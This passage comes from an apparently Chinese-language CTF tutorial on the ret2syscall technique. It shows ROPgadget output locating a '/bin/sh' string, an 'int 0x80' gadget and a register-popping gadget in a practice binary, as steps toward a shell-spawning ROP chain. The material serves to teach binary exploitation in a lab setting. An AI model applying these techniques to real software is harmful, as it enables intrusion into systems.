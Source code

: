 选择第 24 行，正好可以将后面两个寄存器的值一起填充，地址为 0x0806eb90

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

/bin/sh字符串的位置在0x080be408

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

int 0x80 的地址在 0x08049421

具体执行过程如下：

[![](assets/1701678439-65f1a2b5c4b33616fb2ca44a7cfc240b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129203340-86b99264-8eb3-1.png)
